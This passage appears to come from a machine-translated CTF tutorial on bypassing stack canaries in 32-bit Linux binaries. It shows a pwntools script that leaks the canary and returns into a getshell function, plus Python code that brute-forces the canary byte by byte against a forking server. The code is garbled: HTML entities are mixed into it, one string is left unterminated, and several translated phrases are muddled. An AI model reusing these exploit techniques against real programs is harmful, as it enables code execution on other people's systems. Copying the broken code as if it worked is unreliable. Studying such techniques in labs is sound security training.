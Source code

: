 ```C
}
int main(void) {
    init();
    puts("Hello Hacker!");
    vuln ();
    return 0;
}

```

Compile to 32bit program, open NX, ASLR, Canary protection


First print out the 4-digit Canary by overwriting the last `\x00` byte of Canary
After that, calculate the offset, fill Canary into the corresponding overflow position, and implement Ret into the getshell function.


```python
#!/usr/bin/env python
from pwn import *
context.binary = 'ex2'
#context.log_level = 'debug'
io = process (&#39;./ ex2&#39;)
get_shell = ELF("./ex2").sym["getshell"]
io.recvuntil (&quot;Hello Hacker!
# leak Canary
payload = "A"*100
io.sendline(payload)
io.recvuntil ( &quot;A&quot; * 100)
Canary = u32(io.recv(4))-0xa
log.info("Canary:"+hex(Canary))
# Bypass Canary
payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)
io.send(payload)
io.recv ()
io.interactive ()
```

### one-by-one crack Canary

For Canary, although the Canary is different each time the same process restarts (the same as GS, GS is restarted), but the Canary of each thread in the same process is identical.
Also, there is a class that opens the child process interaction through the fork function, because the fork function directly copies the memory of the parent process, so the Canary of each child process created is the same. We can use this feature to completely blast Canary byte by byte.
In the famous offset2libc bypassing all protected linux64bit articles, the author is using this way to blast the Canary:
This is the Python code for blasting:


```python
print "[+] Brute forcing stack canary "
start = len (p)
stop = len (p) +8
while len(p) < stop:
   for i in xrange(0,256):
      res = send2server(p + chr(i))
      if res != "":
         p = p + chr(i)
         #print "\t[+] Byte found 0x%02x" % i
         break
      if i == 255:
         print "[-] Exploit failed"
         sys.exit(-1)
canary = p[stop:start-1:-1].encode("hex")
print "   [+] SSP value is 0x%s" % canary
```